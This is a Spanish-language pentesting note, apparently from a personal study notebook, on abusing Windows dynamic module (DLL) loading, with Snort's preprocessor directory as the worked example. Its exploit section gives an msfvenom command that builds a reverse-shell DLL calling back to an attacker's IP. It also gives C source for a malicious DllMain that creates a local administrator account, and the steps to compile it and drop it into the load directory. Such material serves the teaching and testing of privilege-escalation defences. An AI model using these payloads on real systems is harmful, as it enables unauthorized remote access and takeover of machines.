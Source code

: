 # Modules & Dynamic Modules

Un *module* (*Módulo*) en Windwos generalmente se refiere a un archivo que contiene código ejecutable y recursos que epueden ser utilizados por un programa. Los tipos más comunes de móodulos son:

- **Ejecutables** (**.exe**): Archivos que contienen un programa completo que puede ser ejecutado por el sistema operativo.
- **Librerías de Enlace Dinámico** (**.dll**): Archivos que contiene código y datos que pueden ser utilizados por múltiples programas simultáneamente.

Los módulos permiten que el código sea compartido entre diferentes programas, lo que reduce la duplicación de código y facilita el mantenimiento.

Por otro lado, los *Dynamic Modules* (*Módulos dinámicos*) son módulos que pueden ser cargados en tiempo de ejecución, el lugar de estar vinculados estáticamente en el momento de la compilación. Este concepto se aplica principalmente a las *DLLs* (*Dynamic Link Libraries*). En otras palabras, una aplicación puede decidir en tiempo de ejecución si necesita cargar un módulo específico y puede descargarlo cuando ya no lo necesita.

----
# Abusing Dynamic Modules

El *abuso de módulos dinámicos* es una técnica que aprovecha cómo las aplicaciones cargan dinámicamente bibliotecas de enlace dinámico (DLLs) o módulos para inyectar código malicioso o sustituir módulos legítimos. Esto puede permitir a un atacante ejecutar código con privilegios elevados o acceder a recursos restringidos.

Cuando una aplicación necesita una funcionalidad adicional o recursos que no están compilados en el ejecutable principal, puede cargar módulos dinámicos (Como DLLs) en tiempo de ejecución, en este momento, Windows sigue una secuencia de rutas específicas para buscar el archivo necesario. Si un atacante logra colocar una DLL maliciosa en uan de las ubicaciones que se buscan antes que la DLL legítima, la aplicación puede cargar y ejecutar código malicioso. (Esto se lo conoce como *DLL Hijacking*)

Pero, en algunos casos, existen herramientas que si revisamos su manual de uso, podemos encontrarnos con secciones que hacen alución a *Dynamic Modules load*, donde nos indican el funcionamiento y uso de la posibiilidad de la carga de módulos dinámicos, lo que nos puede abrir la ventana de explotación creando y cargando nuestro propio *dynamic module* sin necesidad de secuestrar uno (*DLL Hijacking*). 

-----
# Exploit

La explicación de explotación de está técnica será dada con el conocido software *Snort*, el cual es un sistema de detección de intrusiones a nivel de red (IDS - Intrusion Detection System) de código abierto.

En este caso podríamos estar enfrentandonos a un sistema que hace uso de este software y podríamos pensar en hacer una breve búsqueda del manual de uso de está misma para visualizar si existe algun apartado referido a la *carga de módulos dynámicos*.

Tras llevar a cabo esta acción, nos encontramos en el manual de uso, sección "Dynamic Modules":

![[Pasted image 20240821190622.png]]

Podemos ver que nos indica las diferentes maneras de carga de módulos dinámicos que lleva a cabo esta herramienta, tanto para los `preprocessor`, la`engine` y  la `detection`, y así mismo vemos que tiene la opción de que se le indique una *.dll* en particular (*file*) o un directorio en el cual encontraremos múltiples DLLs (*shared library path*). En este caso podríamos buscar el archivo de configuración de esta herramienta (Archivo en el cual se configuran estas "opciones" - *snort.conf*).

```bash
cat snort.conf | grep -i dynamicpreprocessor
```

Tras la ejecución del comando anterior, podríamos ver un stdout tal que así:

```bash
dynamipreprocessor directory C:\Snort\lib\snort_dynamicpreprocessor
```

Tras este output, podemos entender que la carga de módulos dinámicos para los `preprocessor` se esta haciendo a nivel de *directorio* y este esta configurado en `C:\Snort\lib\snort_dynamicpreprocessor`, donde en caso de disponer de permisos de escritura, podríamos crear una *.dll* maliciosa para que a la hora de la carga de estas DLLs, se carge nuestra DLL maliciosa y ejecute la tarea que hayamos indicado. 

Facilmente podríamos crear una DLL maliciosa con la herramienta `msfvenom` para obtener una simple **reverse shell**:

```bash
msfvenom -p /windows/x64/shell_reverse_tcp LHOST={our_IP} LPORT={our_PORT} -f dll -a x64 -o malicious.dll
```

Tras esta ejecución, tendrémos una DLL maliciosa que tras ser cargada dinámicamente por un software, nos enviara una reverse shell a un determinado puerto por nuestra IP de atacante. Es importante tener en cuenta que en sistemas avanzados con alta seguridad, payloads generados por herramientas populares como `msfvenom` pueden ser simplemente detectados, por lo que llevar a cabo este proceso de manera manual podría ser mucho más óptimo, para esto podríamos seguir guías como la de [HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking).

Podemos crear distintas DLLs según el compilador que tengamos, por ejemplo, para compiladores como *x86_64-w64-mingw32-gcc* o *i686-w64-mingw32-gcc* podríamos crear un simple DLL con el siguiente código:

- Archivo `pre_dll.c`
```C
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
    if (dwReason == DLL_PROCESS_ATTACH){
        system("cmd.exe /c net user dobliuw dobliuw123! /add; net localgroup administrators dobliuw /add");
        ExitProcess(0);
    }
    return TRUE;
}
```

Una vez creado el archivo, deberemos usar el compilador para crear la DLL:

```bash
x86_64-w64-mingw32-gcc pre_dll.c -shared -o final.dll
```

Una vez realizado esto, tendremos nuestra DLL maliciosa (`final.dll`, por ejemplo) la cual podremos (Siguiendo el ejemplo) mover, copiar, o crear de primeras, en el directorio de nuestro interes (`C:\Snort\lib\snort_dynamicpreprocessor`, por ejemplo). Una vez que esta DLL sea cargada de manera dinámica en proceso de ejecución, se ejecutará el código indicado, donde en caso de que el proceso principal que carga las DLLs (En nuestro ejemplo *Snort*) sea ejecutado por el usuario *Administrator*, estaremos creando un nuevo usuario y agregandolo al grupo de administrators.


